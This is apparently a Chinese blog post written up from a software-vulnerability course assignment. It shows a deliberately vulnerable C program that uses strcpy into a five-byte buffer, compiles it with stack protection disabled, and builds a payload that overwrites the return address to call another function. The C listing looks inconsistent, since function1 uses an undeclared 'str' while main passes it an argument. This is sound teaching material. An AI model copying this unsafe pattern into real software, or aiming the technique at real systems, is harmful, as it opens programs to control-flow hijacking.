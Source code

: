 ```yaml
---
title: 栈溢出利用
date: 2020-09-16 15:59:59
tags: ["随笔"]
index_img: ../assets/gdb-debug.png
---
```


## 概述

![stack-frames](../assets/stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。

## EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](../assets/gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`，构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](../assets/stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。
